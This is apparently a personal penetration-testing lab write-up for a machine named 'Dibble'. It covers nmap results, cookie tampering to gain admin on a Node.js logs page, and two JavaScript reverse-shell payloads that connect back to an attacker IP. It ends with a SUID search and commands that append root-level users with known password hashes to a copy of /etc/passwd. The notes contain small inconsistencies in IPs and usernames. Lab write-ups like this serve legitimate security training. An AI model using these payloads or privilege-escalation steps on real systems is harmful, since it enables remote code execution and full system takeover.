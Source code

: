 # Dibble
# date 8/8/2023
# ip 192.168.217.110

javacode execution on port 3000 via nodejs in logs creation > local rev shell > suid cp > modified passwd and added root1 user > switch to root1 

# nmap
22/tcp   open  ssh     syn-ack OpenSSH 8.3 (protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.46 ((Fedora))
3000/tcp open  http    syn-ack Node.js (Express middleware)


# http://192.168.217.110:3000/

auth/register
Let’s create an account for the test and look at the cookie

First url then base64

Type admin and encrypt

First base64 then url

Paste back

Refresh the page

Visit http://192.168.249.110:3000/logs

Create a new log


# exploitation
(function(){
 var net = require(“net”),
 cp = require(“child_process”),
 sh = cp.spawn(“/bin/bash”, []);
 var client = new net.Socket();
 client.connect(21, “192.168.45.188”, function(){
 client.pipe(sh.stdin);
 sh.stdout.pipe(client);
 sh.stderr.pipe(client);
 });
 return /a/;
})();

(function(){
 var net = require("net"),
 cp = require("child_process"),
 sh = cp.spawn("/bin/sh", []);
 var client = new net.Socket();
 client.connect(3000, "192.168.45.188", function(){
 client.pipe(sh.stdin);
 sh.stdout.pipe(client);
 sh.stderr.pipe(client);
 });
 return /a/; // Prevents the Node.js application form crashing
})();

# priv esc
find / -perm -u=s -type f 2>/dev/null
suid



cat /etc/passwd > passwd.bak

openssl passwd pass1234
$1$IxB1VJyW$W4DOYaocpluTPkciv/Htf0

echo root3:$1$IxB1VJyW$W4DOYaocpluTPkciv/Htf0:0:0:root:/root:/bin/bash >> passwd.bak


echo root2:NTOdsvj8zdrXs:0:0:root:/root:/bin/bash >> passwd.back
